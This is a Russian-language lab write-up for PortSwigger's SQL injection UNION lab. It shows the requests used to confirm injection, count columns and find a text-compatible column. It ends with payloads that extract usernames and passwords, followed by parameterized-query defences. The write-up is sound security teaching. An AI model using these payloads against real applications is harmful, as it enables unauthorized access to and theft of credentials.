






## Lab: SQL injection UNION attack, finding a column containing text

**Платформа:** PortSwigger Web Security Academy  
**Категория:** SQL Injection  
**Сложность:** Practitioner  
**Дата:** 2025-07-18  

---

## TL;DR
Параметр `category` уязвим к SQL инъекции. Оригинальный запрос
возвращает 3 столбца. Через последовательную замену NULL на строку
определено что **второй столбец** совместим с текстовыми данными.

---

## Описание уязвимости

После определения количества столбцов нужно найти какой из них
принимает **текстовые данные**. Это важно потому что данные из БД
(имена пользователей, пароли) — строки, и их можно вытащить только
через текстово-совместимый столбец.

Если подставить строку в столбец несовместимого типа (например число)
— база данных вернёт ошибку несоответствия типов:

```
Столбец INTEGER + строка 'abc' → ошибка типов → 500
Столбец VARCHAR + строка 'abc' → работает → 200
```

Метод: заменяем NULL на строку **по одному** пока не получим 200.

---

## Эксплуатация

### Шаг 1 — Подтверждение SQL инъекции

Добавила одинарную кавычку к параметру `category`:

```
GET /filter?category=Gifts'
```

Сервер вернул **500** — кавычка сломала синтаксис запроса.
Инъекция подтверждена.

```sql
SELECT * FROM products WHERE category='Gifts''
--                                           ^ синтаксическая ошибка
```



### Шаг 2 — Закрытие строки и комментарий

```
GET /filter?category=Gifts''--
```

Сервер вернул **200** — синтаксис исправлен.



### Шаг 3 — Определение количества столбцов

Перебором NULL значений определила что запрос возвращает **3 столбца**
(подробно разобрано в предыдущей лабе):

```
'+UNION+SELECT+NULL--          → 500 (1 ≠ 3)
'+UNION+SELECT+NULL,NULL--     → 500 (2 ≠ 3)
'+UNION+SELECT+NULL,NULL,NULL-- → 200 ✓ (3 = 3)
```



### Шаг 4 — Проверка первого столбца — ошибка

Заменила первый NULL на строку `'abc'`:

```
GET /filter?category='+UNION+SELECT+'abc',NULL,NULL--
```

Сервер вернул **500** — первый столбец не совместим с текстом.

```sql
SELECT col1, col2, col3 FROM products WHERE category=''
UNION SELECT 'abc', NULL, NULL--'
-- Ошибка: col1 имеет числовой тип, строка 'abc' не совместима
```



### Шаг 5 — Проверка второго столбца — успех

Переставила строку во второй столбец:

```
GET /filter?category='+UNION+SELECT+NULL,'def',NULL--
```

Сервер вернул **200** — в ответе появилось значение `def`.
**Второй столбец совместим с текстовыми данными.**

```sql
SELECT col1, col2, col3 FROM products WHERE category=''
UNION SELECT NULL, 'def', NULL--'
-- Успех: col2 принимает текстовые данные
```



### Шаг 6 — Проверка третьего столбца — ошибка

Для полноты картины проверила третий столбец:

```
GET /filter?category='+UNION+SELECT+NULL,'def','abc'--
```

Сервер вернул **500** — третий столбец тоже не совместим с текстом.

```sql
SELECT col1, col2, col3 FROM products WHERE category=''
UNION SELECT NULL, 'def', 'abc'--'
-- Ошибка: col3 имеет числовой тип
```



---

## Итог

Полная карта столбцов оригинального запроса:

```
Столбец 1 → числовой тип    (строка вызывает ошибку)
Столбец 2 → текстовый тип ✓ (строка работает — вектор для извлечения данных)
Столбец 3 → числовой тип    (строка вызывает ошибку)
```

Итоговая последовательность:
```
'                              → 500 (инъекция подтверждена)
''--                           → 200 (синтаксис исправлен)
UNION NULL                     → 500 (1 ≠ 3)
UNION NULL,NULL                → 500 (2 ≠ 3)
UNION NULL,NULL,NULL           → 200 (3 = 3, количество столбцов найдено)
UNION 'abc',NULL,NULL          → 500 (столбец 1 — не текст)
UNION NULL,'def',NULL          → 200 ✓ (столбец 2 — текст!)
UNION NULL,'def','abc'         → 500 (столбец 3 — не текст)
```

Теперь можно извлекать данные через второй столбец:

```sql
-- Извлечение данных из таблицы users:
'+UNION+SELECT+NULL,username,NULL+FROM+users--
'+UNION+SELECT+NULL,password,NULL+FROM+users--

-- Или сразу оба через конкатенацию:
'+UNION+SELECT+NULL,username||':'||password,NULL+FROM+users--
```

---

## Защита

```python
# УЯЗВИМО — конкатенация строк:
query = f"SELECT * FROM products WHERE category='{category}'"
cursor.execute(query)

# БЕЗОПАСНО — параметризованный запрос:
query = "SELECT * FROM products WHERE category=?"
cursor.execute(query, (category,))

# БЕЗОПАСНО — SQLAlchemy ORM:
products = db.session.query(Product).filter(
    Product.category == category
).all()
```

Дополнительно:
- Параметризованные запросы исключают инъекцию на уровне протокола
- ORM как дополнительный слой абстракции
- Минимальные привилегии пользователя БД
- Не показывать детали SQL ошибок — они дают атакующему
  информацию о структуре БД и типах столбцов